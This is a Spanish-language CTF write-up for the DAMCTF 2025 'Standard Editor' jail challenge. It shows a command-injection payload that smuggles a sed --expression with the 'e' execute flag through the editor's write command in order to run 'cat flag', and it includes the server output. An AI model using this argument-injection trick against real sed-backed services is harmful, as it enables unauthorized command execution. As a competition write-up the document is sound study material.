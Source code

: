 ```yaml
---
title: Standard Editor - DAMCTF2025
author: Kesero
description: Reto basado escapar de un programa de apuntes por terminal mediante command injections
date: 2025-05-11 10:00:00 +0000
categories: [Writeups Competiciones Internacionales, Miscelánea]
tags: [Misc, Writeups, Dificultad - Media, Misc - Jail]
pin: false
math: true
mermaid: true
image:
  path: https://raw.githubusercontent.com/k3sero/Blog_Content/refs/heads/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor/img/2.png
  lqip: 
  alt: 
comments: true
---
```

Autor del reto: `evan`

Dificultad: <font color=orange>Media</font>

## Enunciado

"Joel Fagliano has nothing on me. (flag is all caps)"

## Archivos

Este reto nos da el siguiente archivo.

- `conexión por netcat` : Contiene la conexión directa con el servidor del reto.

Archivos utilizados [aquí](https://github.com/k3sero/Blog_Content/tree/main/Competiciones_Internacionales_Writeups/2025/Damctf2025/Misc/Standard-Editor).

## Analizando el reto

Al conectarnos por netcat podemos ver el siguiente mensaje.

```
    ┌──(kesero㉿kali)-[~]
    └─$ nc standard-editor.chals.damctf.xyz 6733

    [Sun May 11 20:22:15 UTC 2025] Welcome, editor!
    Feel free to write in this temporary scratch space.
    All data will be deleted when you're done, but files will
    first be printed to stdout in case you want to keep them.
    
    a
    ?
    b
    ?
    c
    ?

```

## Solver

En este reto tendremos que realizar un command injection a través del editor simulado que nos dan en el reto. Para ello como siempre en estos casos, tendremos que probar, probar y probar todo lo posible para observar cómo se comporta el servidor.

La primera suposición que podemos realizar es que el editor se trata de un editor de línea de comandos personalizados emulando algo parecido a el programa `ed`.

Por ejemplo, si queremos añadir líneas en este tipo de editores, con el comando `a` significa `append` y podemos añadir líneas al editor. Además si queremos finalizar la entrada de líneas, lo realizaremos mediante `.`. Ocurre de forma parecida con el comando `w` el cual nos permite ejecutar comandos.

Además, realizando pruebas podemos observar que las expresiones regulares están permitidas ya que observaremos que estamos habilitados para evaluar expresiones de sustitución.

Después de muchos intentos damos con el código para leer la flag. 

```
a
.
w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e
a
bruh
.
w f
q
```
Vamos a explicarlo línea por línea.

1. `a` empezamos a añadir líneas.
2. `.` finalizamos la entrada de líneas
3. `w --expression=s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. Para comenzar, `w` permite escribir, `--expression=` nos permite evaluar y ejecuar a continuación. Por otro lado dentro de la expresión tenemos `s@.*@cd\ ..\;\ cd\ ..\;\ cat\ flag@e`. En la cual `s@.*@...@e` es una expresión de sustitución de `sed` con la flag `e`, que ejecuta el resultado como un comando de sistema.
Posteriormente, `.*` fuerza a capturar cualquier línea dentro del archivo. Acto seguido se sustituye por `cd ..; cd ..; cat flag` que cambia dos niveles arriba en el sistema de archivos y luego ejecuta `cat flag`

4. `a, bruh, .` Con esta combinación forzamos a que se ejecute el procesamiento de la expresión anterior.

5. `w f` Finalmente grabamos el contenido con `f` y guardamos el contenido. De esta manera, forzamos al sistema que interprete la expresión con ejecución.

6. `q` Por último, salimos del programa.

Realizando los pasos anteriores, obtenemos la flag.

```
  ┌──(kesero㉿kali)-[~]
  └─$ nc standard-editor.chals.damctf.xyz 6733

  [Mon May 12 16:19:16 UTC 2025] Welcome, editor!
  Feel free to write in this temporary scratch space.
  All data will be deleted when you're done, but files will
  first be printed to stdout in case you want to keep them.
  a
  .
  w --expression=s@.*@cd\ ..\;\ 
  cd\ ..\;\ cat\ flag@e
  0
  a
  bruh
  .
  w f
  5
  q
  sed: can't read s@vi\|vim\|emacs\|nano\|vscode\|notepad[+][+]\|code\|zed\|atom\|word\|office\|docs\|o365\|copilot\|cursor@ed(1)@ig: No such file or directory
  dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}
```

## Flag
`dam{is_it_w31rd_that_i_u53_ed(1)_4_fun?}`